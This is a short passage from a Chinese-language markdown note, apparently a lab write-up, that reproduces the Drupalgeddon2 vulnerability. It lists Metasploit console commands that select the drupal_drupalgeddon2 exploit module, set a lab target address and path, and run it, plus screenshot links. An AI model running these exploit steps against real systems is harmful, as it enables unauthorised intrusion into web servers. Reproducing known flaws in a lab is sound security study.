 <img src="../../images//image-20221010184144462.png" alt="image-20221010184144462" style="zoom: 50%;" />

直接使用msf进行复现：

```
msfconsole
search drupal
exploit/unix/webapp/drupal_drupalgeddon2
set rhosts 192.168.0.104
set targeturi /drupal
exploit
```

![image-20221010185330135](../../images//image-20221010185330135.png)
